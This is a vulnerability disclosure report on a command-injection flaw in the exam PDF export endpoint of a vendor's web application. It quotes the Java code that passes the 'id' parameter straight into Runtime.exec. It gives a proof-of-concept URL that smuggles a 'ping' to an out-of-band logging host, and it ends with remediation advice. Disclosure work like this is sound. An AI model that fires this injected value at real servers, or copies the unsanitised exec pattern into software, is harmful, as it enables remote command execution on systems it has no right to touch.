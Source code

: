 ![image-20250225202220657](./image-20250225202220657.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:
Arbitrary Command Execution in Exam Export PDF Functionality

### Summary:
The code provided contains a critical vulnerability that allows for arbitrary command execution. By manipulating the 'id' parameter in the '/plan/examExportPDF' endpoint, an attacker can inject and execute arbitrary commands on the underlying operating system.

### Affected Endpoint:
`/plan/examExportPDF`

### Vulnerability Type:
Arbitrary Command Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/plan/examExportPDF"})
public void examExportPDF(HttpServletResponse response, @RequestParam("id") String id) {
    try {
       Runtime run = Runtime.getRuntime();
       String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
       String fileName = System.currentTimeMillis() + ".pdf";
       String filePath = rootPath + "/pdffile/" + fileName;
       File dir = new File(rootPath + "/pdffile/");
       if (!dir.exists()) {
          dir.mkdir();
       }

       Process process = run.exec("/opt/source/wkhtmltox/bin/wkhtmltopdf --page-size A3 "
               + CommonConstants.contextPath + "/plan/exam/info?id="
               + id
               + " "
               + filePath);
       process.waitFor();
       response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
       InputStream in = new FileInputStream(new File(filePath));
       int len = false;
       byte[] buf = new byte[1024];
       OutputStream out = response.getOutputStream();

       int len;
       while((len = in.read(buf)) > 0) {
          out.write(buf, 0, len);
       }

       in.close();
    } catch (Exception var13) {
       logger.error("---------------------" + var13);
    }
}
```

### Proof of Concept (PoC):
```
http://uri/plan/examExportPDF?id=1;ping 9e9e4078.log.nat.cloudns.ph.;
```

![image-20250225210555561](./assets/image-20250225210555561.png)

### Impact:

An attacker can exploit this vulnerability to execute arbitrary commands on the server hosting the application. This could lead to data theft, unauthorized access, and potential compromise of the entire system.

### Recommendation:
1. Validate and sanitize user input to prevent command injection attacks.
2. Avoid using user input directly in command execution.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.

### Conclusion:
The code provided is vulnerable to arbitrary command execution due to improper handling of user input. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
N/A

